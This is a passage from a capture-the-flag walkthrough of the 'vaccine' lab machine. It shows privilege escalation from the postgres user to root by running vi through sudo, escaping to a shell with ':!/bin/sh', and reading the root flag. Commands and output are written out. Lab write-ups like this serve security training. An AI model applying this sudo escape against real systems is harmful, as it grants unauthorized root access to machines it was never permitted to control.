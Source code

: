 We find that the user `postgres` can execute `/bin/vi` to edit the file `/etc/postgresql/11/main/pg_hba.conf``.

In this case, we can abuse that privilege to spawn a `root` console using the integrated commands in the 'vi' binary.

### Escalating privileges abusing vi sudo privilege

First, we execute the command as listed above.

```shell
postgres@vaccine:/var/lib/postgresql/11/main$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

And then, inside `vi`, we press `ESCAPE`, `:` to indicate shell commands and `!/bin/sh` to spawn the privileged console.

```shell
# whoami
root
# 
```

We are now `root` and successfully finished the challenge!
We can `cat` the root flag inside `/root`

---

# References

|__`Abusing vi sudo privilege`__|__https://gtfobins.github.io/gtfobins/vi/#sudo__|
|:-|:-|

<br>
<br>

___─ Written by <a href="https://github.com/oscar-rk">oscar-rk</a> ─___